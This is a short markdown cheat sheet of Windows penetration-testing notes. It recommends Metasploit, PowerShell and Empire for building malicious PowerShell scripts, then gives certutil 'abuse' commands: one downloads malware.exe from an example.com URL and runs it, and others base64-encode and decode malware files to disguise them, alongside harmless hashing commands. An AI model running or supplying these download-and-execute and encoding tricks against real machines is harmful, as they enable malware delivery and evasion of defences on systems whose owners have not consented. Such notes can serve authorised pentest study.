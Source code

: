 # Windows Pentest Notes
## Table of Contents
[Tools](#Useful-Tools)
### Useful Tools
`metasploit` of course

and `powershell` is always your best friend

`empire` for creating malicious pwershell script, avalible on [github](https://github.com/EmpireProject/Empire)

### Certutil abuse
#### Download files & execute
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
#### Hash Files
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
#### Files to baes64 code 
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`
